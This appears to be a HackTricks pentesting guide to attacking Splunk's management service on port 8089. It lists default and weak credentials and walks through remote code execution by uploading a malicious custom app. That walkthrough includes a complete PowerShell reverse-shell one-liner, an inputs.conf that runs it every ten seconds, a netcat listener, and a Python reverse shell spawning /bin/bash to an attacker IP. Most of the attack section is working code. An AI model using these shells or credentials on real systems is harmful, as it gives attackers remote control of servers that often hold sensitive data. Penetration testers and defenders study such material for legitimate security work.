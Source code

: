 # 8089 - Pentesting Splunkd

<details>

<summary><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ HackTricks LIVE Twitch</strong></a> <strong>Wednesdays 5.30pm (UTC) 🎙️ -</strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## **Basic Information**

**Splunk** is a **log analytics tool** used to gather, analyze and visualize data. Though not originally intended to be a SIEM tool, Splunk is often used for **security monitoring and business analytics**. Splunk deployments are often used to house **sensitive data** and could provide a wealth of information for an attacker if compromised.

**Default port:** 8089

```
PORT     STATE SERVICE VERSION
8089/tcp open  http    Splunkd httpd
```

{% hint style="info" %}
The **Splunk web server runs by default on port 8000**.
{% endhint %}

## Enumeration

### Free Version

The Splunk Enterprise trial converts to a **free version after 60 days**, which **doesn’t require authentication**. It is not uncommon for system administrators to install a trial of Splunk to test it out, which is **subsequently forgotten about**. This will automatically convert to the free version that does not have any form of authentication, introducing a security hole in the environment. Some organizations may opt for the free version due to budget constraints, not fully understanding the implications of having no user/role management.

### Default Credentials

On older versions of Splunk, the default credentials are **`admin:changeme`**, which are conveniently displayed on the login page.\
However, **the latest version of Splunk** sets **credentials** **during the installation process**. If the default credentials do not work, it is worth checking for common weak passwords such as `admin`, `Welcome`, `Welcome1`, `Password123`, etc.

### Obtain Information

Once logged in to Splunk, we can **browse data,** run **reports**, create **dashboards**, **install applications** from the Splunkbase library, and install custom applications.\
You can also run code: Splunk has multiple ways of **running code**, such as server-side Django applications, REST endpoints, scripted inputs, and alerting scripts. A common method of gaining remote code execution on a Splunk server is through the use of a scripted input.

Moreover, as Splunk can be installed on Windows or Linux hosts, scripted inputs can be created to run Bash, PowerShell, or Batch scripts.

### Shodan

* `Splunk build`

## RCE

### Create Custom Application

A custom application can run **Python, Batch, Bash, or PowerShell scripts**.\
Note that **Splunk comes with Python installed**, so even in **Windows** systems you will be able to run python code.

You can use [**this**](https://github.com/0xjpuff/reverse\_shell\_splunk) Splunk package to assist us. The **`bin`** directory in this repo has examples for [Python](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/rev.py) and [PowerShell](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/run.ps1). Let's walk through this step-by-step.

To achieve this, we first need to create a custom Splunk application using the following directory structure:

```shell-session
tree splunk_shell/

splunk_shell/
├── bin
└── default
```

The **`bin`** directory will contain any **scripts that we intend to run** (in this case, a **PowerShell** reverse shell), and the default directory will have our `inputs.conf` file. Our reverse shell will be a **PowerShell one-liner:**

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close(
```

The [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) file tells Splunk **which script to run** and any other conditions. Here we set the app as enabled and tell Splunk to run the script every 10 seconds. The interval is always in seconds, and the input (script) will only run if this setting is present.

```shell-session
cat inputs.conf 

[script://./bin/rev.py]
disabled = 0  
interval = 10  
sourcetype = shell 

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```

We need the `.bat` file, which will run when the application is deployed and execute the PowerShell one-liner.

The next step is to choose `Install app from file` and upload the application.

<figure><img src="../.gitbook/assets/image (4) (5) (1).png" alt=""><figcaption></figcaption></figure>

Before uploading the malicious custom app, let's start a listener using Netcat or [socat](https://linux.die.net/man/1/socat).

```shell-session
sudo nc -lnvp 443

listening on [any] 443 ...
```

On the `Upload app` page, click on browse, choose the tarball we created earlier and click `Upload`. \*\*\*\* As **soon as we upload the application**, a **reverse shell is received** as the status of the application will automatically be switched to `Enabled`.

#### Linux

If we were dealing with a **Linux host**, we would need to **edit the `rev.py` Python script** before creating the tarball and uploading the custom malicious app. The rest of the process would be the same, and we would get a reverse shell connection on our Netcat listener and be off to the races.

```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```

### RCE & Privilege Escalation

In the following page you can find an explanation how this service can be abused to escalate privileges and obtain persistence:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## References

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

<details>

<summary><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ HackTricks LIVE Twitch</strong></a> <strong>Wednesdays 5.30pm (UTC) 🎙️ -</strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
